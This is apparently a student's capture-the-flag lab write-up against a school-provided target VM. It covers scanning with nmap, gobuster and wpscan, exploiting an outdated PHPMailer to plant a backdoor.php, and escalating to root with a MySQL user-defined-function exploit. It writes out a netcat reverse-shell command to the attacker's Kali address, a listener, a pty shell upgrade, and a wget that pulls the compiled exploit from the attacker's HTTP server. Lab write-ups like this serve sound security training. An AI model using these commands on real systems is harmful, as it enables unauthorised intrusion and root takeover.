# **Target 2**
### Target 2 IP: 192.168.1.115
### KALI IP: 192.168.1.90

## Recon
-----

#### NMAP:



#### GOBUSTER



#### WPSCAN





I see that these are the same users as last time, so I tried their old passwords, and they all have updated their passwords since the last hack.

Going into `http://192.168.1.115/vendor/` we can find the first flag by just taking a search into all of the file, in this case, the first flag was in `http://192.168.1.115/vendor/PATH`



After looking into `http://192.168.1.115/vendor/SECURITY.md` you can see that this company is keeping track of all the patches for `PHPMailer`, so we'll see if this is patched all of the way or if there is still a vulnerability. at `/vendor/VERSION` we see the PHPMailer version is most likely `5.2.16`

## EXPLOIT
------------



After running the script found in the CVE, (or in our case, the one provided by the school) it uploaded a backdoor.php script that allows me to upload console commands, and thanks to the website `https://meyerweb.com/eric/tools/dencoder/`, it turns `nc 192.168.1.90 4444 -e /bin/bash` into `nc%20192.168.1.90%204444%20-e%20%2Fbin%2Fbash`, which we can put into the URL after running `nc -lnvp 4444` on our host machine, we can gain a reverse shell, then we can use a simple python trick to get a normal shell with: `python -c 'import pty;pty.spawn("/bin/bash")'`





Move one directory back, and you find the second Flag



Flag 3 was found at `http://192.168.1.115/wordpress/wp-content/uploads/2018/`, which was the first flag I found since it was the most interesting result from the `wpscan`



# ESCALATION
------------

We can find the same MySQL credentials in the same place, just to make sure they didn't change anything



When you connect to it you get the version number of it



And proof that it's running as root



Some research led me to the `MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)` from http://exploit-db.com/exploits/1518, I tried really hard to get it to compile on the target system, but it didn't work, luckily we're already on the network so I can host it on my target machine and download it using my remote shell, using this guide to compile it using `gcc` https://atom.hackstreetboys.ph/linux-privilege-escalation-service-exploit/

So using the Python Simple HTTP service `python -m SimpleHTTPServer 80`, I can use the remote shell to `wget 192.168.1.90/temp/1518.so`, which downloads the file onto my target machine, giving the payload extra privileges, we can download it on the target system with the remote terminal we got executing the line `wget 192.168.1.90/temp/1518.so`



After following that guide perfectly, we're in the system in a root shell.



And that's all four flags! In conclusion, the system is extremely vulnerable to not only PHP injection but it's also code execution as it's running an outdated version of MySQL
